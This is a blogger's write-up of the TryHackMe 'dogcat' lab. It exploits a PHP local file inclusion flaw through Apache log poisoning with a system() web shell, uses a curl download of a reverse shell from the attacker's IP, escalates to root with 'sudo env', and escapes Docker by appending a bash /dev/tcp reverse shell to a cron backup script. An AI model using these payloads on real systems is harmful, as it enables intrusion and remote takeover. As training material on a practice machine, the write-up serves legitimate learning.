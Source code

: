 ```yaml
---
title : "TryHackMe: Dogcat WriteUp"
author : Seif-Allah
description : "TryHackMe: WriteUp for the 'dogcat' room (Level: Medium)"
layout : post
category: CTF-WriteUp

image : /assets/images/writeups/thm/dogcat/dogcat.png
---
```

Link : [dogcat room](https://tryhackme.com/room/dogcat)

Welcome, Welcome, Welcome and welcome ! 

### Introduction 
After finishing [lfi basics room](), and learning some new lfi stuff, I chose this room to practice my new skill, and I absolutely recommend it! 

### Enumeration

- - -
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```
Nothing fancy here, there's a web server running on port 80, let's check it! 

![homepage](/assets/images/writeups/thm/dogcat/homepage.png)

Basically, it's a web app that choose randomly a cat or a dog image based on user choice (images are stored inside a dog and cat folders - look at the source). 

The user choice (cat | dog) are passed to the server through the *view* variable (look at the url), so what if we enter something other than dog or cat ? for example *ls*
- - -
```html
Sorry, only dogs or cats are allowed.
```
- - -
So only dogs or cats allowed ? lets try *dog;ls* ?
- - -
```html 
Warning: include(dog;ls.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog;ls.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
humm ! so there's an include function running inside the */var/www/html/index.php* file that failed to open *days;ls.php* file. 

I think it's time for some [lfi](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi) now ! 

First things first, I used the null byte character : %00
The result was : 
- - -
```bash
Warning: include(): Failed opening 'dog;ls' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
so we get rid of the first warning which means that :
- the program concatenate .php extension at the end of the input unless it's dog or cat.

Ok, let's *directory traversal* : 
- - -
```html
“/?view=php://filter/read=convert.base64-encode/resource=./dog/../index”
Result after decoding : 

<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
         <!-- the site checks if ext variable is set, if not it assigns it .php   -->
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
html comment is my explanation of the code.


### LFI to RCE via controlled log file 
Like mentioned [here](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi), I did a request to the server (in our case Apache) and include the log file (/var/log/apache2/access.log&ext). Reading the log file, it looks like we can insert a php script inside the user agent header since it's not manipulated(10.4.14.245 - - [14/Nov/2020:17:13:34 +0000] "GET / HTTP/1.1" 200 537 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.4.14.245 -), so I inserted this code : 
- - -
```php
<?php system($_GET['cmd']);?>
```
- - -
and then started a web server on my local host to host a reverse shell file and used wget command to save it inside a temporary file to finally get a reverse shell ! 
- - -
```php
/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl http://MY-IP:80/reverse.php > /tmp/reverse.php
```
- - -
After that, I used chmod to make it executable and started a listener in my local host and running the file from the browser
BOOM!! I got the reverse shell ! 
- - -
```bash
root@kali:~/Documents/thm/startup# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.4.14.245] from (UNKNOWN) [10.10.129.131] 46518
Linux 571f0aa7aca9 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 18:05:41 up 55 min,  0 users,  load average: 0.23, 0.11, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Spawning a tty shell using */bin/bash -i* command, and looking at the user directory we can find the 2nd flag. 
The first flag was inside the */var/www/html/* directory. (We could retrieve it by running view=flag in the url, anyway)
Now we need to escalate our privileges.
### PrivEsc
Running sudo -l command, it looks like we can *env* as root, checking [gtfobins] as always and yeah we can escalate our privileges to root by running :
*sudo env /bin/sh*, easy!
We can now retrieve the 3rd flag from root directory. 

But now !! THE FUN BEGIN 

### Breaking DOCKER LOCKER 
The 4th flag was really hard to get for me, I didn't face any of these kinda flags before but it was kinda fun to get it ! 

By looking at this [article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) from the famous Vickie Lie, and the docker tag from the room cover, I check /proc/1/cgroup file to check if we are inside a docker container or not. 

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the find / -type f -name *.sh command because nothing of the tricks found helped me, the first result is the file /opt/backups/backup.sh, hum interesting, looking at its contents : 
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
From what it looks like, basically it's a cronjob that backup the container, and since it's writeable, let's add a reverse shell, start a listener and wait for it to be executed.
- - -
```bash
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1'" >> backup.sh
```
- - -
After few minutes we get a reverse shell from the parent host and we can easily get flag4.txt ! 

### Final thoughts 
This room rocks ! I absolutely recommend for all beginners like me ! 
Huge thanks to [jammy](https://tryhackme.com/p/jammy) ! 
